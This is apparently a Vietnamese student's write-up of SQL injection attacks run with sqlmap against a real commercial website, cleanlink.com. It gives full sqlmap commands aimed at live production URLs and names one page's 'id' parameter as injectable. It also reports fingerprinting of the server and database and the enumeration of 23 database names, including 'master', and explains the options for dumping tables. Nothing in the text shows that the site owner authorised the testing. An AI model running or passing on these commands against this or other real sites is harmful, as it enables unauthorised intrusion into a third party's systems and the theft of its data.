



# Mục tiêu
- [x] Tìm kiếm một trang web sử dụng cơ sở dữ liệu MySQL để thực hiện kiểm thử.
- [x] Tìm kiếm các parameter có nguy cơ bị tấn công trên trang web.
- [x] Sử dụng sqlmap để thực hiện tấn công tự động vào các parameter đã tìm được, tìm kiếm nội dung nhạy cảm chứa trong các bảng khác nhau. 
- [ ] Sử dụng thông tin đã tìm được để thực hiện các thao tác tiếp theo.

# Thực nghiệm
Mọi thực nghiệm được áp dụng lên trang web `https://www.cleanlink.com/`. Các cuộc tấn công được thực nghiệm trong lần thực nghiệm này đều nhằm mục đích kiểm thử bảo mật, không mang ý định tấn công người dùng bất hợp pháp.

## Nội dung thực nghiệm

Qua quá trình sử dụng web, tôi đã tìm được một số parameter:
- productType: mã nhóm hàng, xuất hiện khi chọn một sản phẩm bất kỳ trong `Marketplace`.
- sellable: một đoạn ký tự, có thể là một loại mã hoá/hàm băm của một số thông tin như mã hàng, số lượng hàng còn trong kho, mặt hàng có đang được tiếp tục sản xuất không, ... Xuất hiện khi chọn một sản phẩm bất kỳ trong `Marketplace`.
- appearance: mã ngoại hình (màu sắc??), xuất hiện khi chọn một sản phẩm bất kỳ trong `Marketplace`.
- size: kích cỡ (còn trong kho), xuất hiện khi chọn một sản phẩm bất kỳ trong `Marketplace`.
- id: xuất hiện ở một số mục nhất định, chưa rõ trang web sử dụng vào việc gì cũng như truy xuất như thế nào.

Sử dụng sqlmap lên URL chứa các parameter đã tìm được để kiểm thử:

```bash
python3 sqlmap.py -u "https://cleanlink.myspreadshop.com/my+super+power+is+listening+to+complaints-A63e51b0399b27e58820f894e?productType=842&sellable=74R1qG1XbXf1p0banev8-842-33&appearance=2&size=29" --dbs
```

- **productType**, **sellable**, **appearance**, **size**: Có vẻ các parameter này không thể được sử dụng để thực hiện tấn công SQLi. Câu lệnh của sqlmap khi được thực hiện liền trả về thông báo lỗi 406.



```bash
python3 sqlmap.py -u "https://www.cleanlink.com/cleanlinkminute/details.aspx?id=37485" --dbs
```

- **id**: có thể thực hiện tấn công SQLi, sqlmap trả về được thông tin của máy chủ và cơ sở dữ liệu như `web server operating system: Windows 2019 or 2022 or 11 or 10 or 2016`, `web application technology: ASP.NET 4.0.30319, ASP.NET, Microsoft IIS 10.0`, `back-end DBMS: Microsoft SQL Server 2019`. Ngoài ra đã bruteforce được tên 23 cơ sở dữ liệu, trong đó có `master` (vị trí lưu mật khẩu, tài khoản mặc định của MSSQL):



Khi đã xác định được thông tin về cơ sở dữ liệu, ta có thể sử dụng thêm các tuỳ chọn `-D` (tìm kiếm trên một database nhất định), `-T` (tìm kiếm trên một table nhất định), `-C` (tìm kiếm trên một column nhất định), `--tables` (tìm kiếm thông tin về tên các table), `--dump` (trả về tất cả thông tin trong bảng), `--threads` (sử dụng đa luồng để tìm kiếm thông tin, tăng tốc độ bruteforce),...

Sử dụng `python3 sqlmap.py -u "https://www.cleanlink.com/cleanlinkminute/details.aspx?id=37485" -D master --tables --threads=10`.



Có thể thấy dòng lệnh trả về một bố bảng, nhưng khi thực hiện SQLi sâu hơn thì trả về kết quả bẳng trống. Nguyên nhân có thể là do người dùng admin đã chặn các loại truy cập không mong muốn, hoặc ứng dụng web có lỗi liên quan đến cơ sở dữ liệu, hoặc sqlmap không thể xuyên qua được các lớp bảo mật của cơ sở dữ liệu...